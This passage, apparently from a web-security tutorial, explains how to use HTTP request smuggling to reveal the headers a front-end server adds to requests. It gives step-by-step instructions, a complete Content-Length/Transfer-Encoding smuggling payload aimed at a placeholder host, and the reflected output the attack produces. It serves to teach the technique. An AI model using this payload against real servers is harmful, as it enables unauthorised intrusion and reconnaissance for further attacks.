 
##### Revealing Front-End Request rewriting

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers.

For example, the front-end server might:
- add an X-Forwarded-For header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user
- add some sensitive information that is of interest for other attacks.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

1. Find a POST request that reflects the value of a request parameter into the application's response.
2. Shuffle the parameters so that the reflected parameter appears last in the message body.
3. Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the email parameter:
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
This results in a response containing the following:
```
<input id="email" value="wiener@normal-user.net" type="text">
```
you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request:
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
